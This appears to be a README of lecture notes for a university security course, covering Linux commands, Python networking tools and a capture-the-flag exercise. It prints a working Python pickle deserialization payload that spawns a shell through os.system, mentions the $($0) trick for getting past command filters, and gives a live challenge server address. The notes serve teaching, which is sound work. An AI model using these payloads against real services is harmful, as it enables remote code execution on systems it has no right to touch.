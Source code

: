 # Slides
## Linux and System Admin
slides: [Linux_and_SA](Linux_and_SA.pptx)
 * **Linux Common Command**
  * `echo $0`: 印出目前在跑的process名稱
   * 如果是$($0) => $() 開啟shell，$0 => 就是shell！
   * 交大網路安全實務期末互打比賽，每個主機上有可以執行任何command的漏洞，大家都忙著寫script過濾command，據說很多人被```$($0)```打死XD
  * `touch`: create an empty file, `cat file`: print file content to stdout, `nc`: create TCP/UDP connection/listen, `cmd1 | cmd2`: pipe stdout of cmd1 as stdin of cmd2
 * **Kali Linux**：綜合了各種滲透測試工具的作業系統，Ubuntu的好親戚
## Python
slides: [Python](Python.pptx)
 * **Socket**: basic module for TCP/UDP connections
 * **Struct**
 * **Pwntools**

# Today's Vulnerable
pickle 是個可以把class serialized 和deserialized 的module，以下程式能叫出shell！
 ```python
  import pickle
  import os
  class Exploit(object):
    def __reduce__(self):
      comm = "sh"
      return (os.system, (comm,))
a = pickle.dumps(Exploit()) # searlized to String
b = pickle.loads(a) # desearlized from String
```
## Remark
 * deserialized回來時，需要告訴python 要怎麼還原回來，而這個還原方法就是在 ```__reduce__(self)```裡指定。
=> 也就是，反serialized時會call ```__reduce__(self)```
 *  ```__reduce__(self)``` 回傳的格式：[desearlized_function][argument to desearlized_function]
 => ```(os.system, (comm,))``` 會desearlized成 ```os.system("sh")```，***calling shell***!

# Get the Flag
1. [Pickle](Pickle)
 * server： ```nc 140.113.194.85 49167```
 * [server code](Pickle/spam.py)
 * Hint: pickle vulnerable
